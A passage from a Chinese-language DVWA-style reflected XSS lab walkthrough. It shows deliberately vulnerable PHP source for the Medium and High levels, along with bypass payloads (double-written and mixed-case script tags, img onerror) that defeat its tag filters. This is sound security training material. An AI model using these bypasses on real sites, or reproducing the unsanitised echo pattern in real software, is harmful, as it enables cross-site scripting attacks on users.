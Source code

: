 弹出了alert,成功了.

### Medium
直接查看源码

```php
<?php 
// Is there any input? 
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) { 
    // Get input 
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
    // Feedback for end user 
    echo "<pre>Hello ${name}</pre>"; 
} 
?>
```
使用了`str_replce`将`<script>`替换为空.
方法有许多,我们先尝试双写绕过,都是反射性这次就不在url中输入,直接用输入框验证
构造:

```
<sc<script>ript>alert(/xss/)</script>
```

还可以大小写绕过

```
<Script>alert(/xss/)</script>
```
也可以不使用script例如用onerror
```
<img src="#" onerror="alert(/Xss/)" />
```
等等很多方式.

### high
源码

```
<?php 
// Is there any input? 
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) { 
    // Get input 
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] ); 
    // Feedback for end user 
    echo "<pre>Hello ${name}</pre>"; 
} 
?>
```
一个新函数preg_replace()已加入php学习套餐.
在最后一个参数name中搜索第一个参数(一段正则表达),然后替换为中间的参数(空).
这使得双写绕过、大小写混淆绕过（正则表达式中i表示不区分大小写）不再有效

但是依然可以使用onerror等其他script函数调用方法.

### impossible
